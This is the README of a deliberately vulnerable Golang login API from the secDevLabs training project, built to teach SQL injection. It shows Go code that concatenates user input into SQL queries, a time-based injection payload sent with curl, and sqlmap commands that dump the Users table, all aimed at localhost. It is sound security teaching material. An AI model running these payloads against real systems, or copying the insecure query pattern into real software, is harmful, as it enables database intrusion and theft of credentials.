 # CopyNPaste API

<img src="../../../images/secDevLabs-logo.png" align="" height="80" />

CopyNPaste is Golang web application that uses an API and a simple front end to simulate a login page. It has both `/register` and `/login` routes that, by communicating with a MySQL database, enables users register and enter into a generic system.

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **SQL Injection** vulnerabilities can be exploited and to encourage developers send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a1/copy-n-paste
```

```sh
make install
```

Then simply visit [localhost:3000][App], as exemplified bellow:

<img src="images/CopyNPaste.png" align="center"/>

## Get to know steps

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.
* Register another user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:3000/register
```
* Login as this second user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:3000/login

```

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section descrides how an attacker could identify and exploit an SQL Injection in CopyNPaste app. We encourage you follow these steps and try to reproduce the attack itself before reading any code.

#### Vulnerabilituy identification  👀

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`]((https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/copy-n-paste/app/util/db.go#)) file, it was possibile to see that some input from users are concatenated with SQL queries, as shown in the following codes:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is present to these variables, SQL injections may be successfuly executed in the database. Using web interface, we send some information using form for inspect how web interface comunicates with API.

<img src="docs/attack-0.png" align="center"/>

To confirm this, the following payload could be used that, if the application is indeed vulnerable, a 5 seconds delay will be noted after sending it:

<img src="docs/attack-1.png" align="center"/>

Using `curl` on CLI interface, we can test again (with a 30 seconds delay):

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:3000/login
```

Request:

<img src="docs/attack-2.png" align="center"/>

30 seconds later:

<img src="docs/attack-3.png" align="center"/>

#### Vulnerability exploitation 🔥

An attacker could now create any malicious SQL queries and send to the API that, in theory, will be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed.

To install sqlmap on Mac you can simply type:

```sh
brew install sqlmap
```

First possible step is to create a `postRequest.txt` containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Before executing the attack, you can open a new tab in your terminal and type the following command to observe how the malicious requests will come to the app:

```sh
docker logs a1_api -f
```

After that, we could now use `-r` option and wait sqlmap perform multiples malicious requests until it finds the vulnerable parameter:

```sh
sqlmap -r postRequest.txt
```

<img src="docs/attack-4.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="docs/attack-5.png" align="center"/>

## Secure this app 🔧

How could you now migitate this vulnerability? After your code modification, an attacker should not be able to:

* Execute SQL queries into database.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:3000
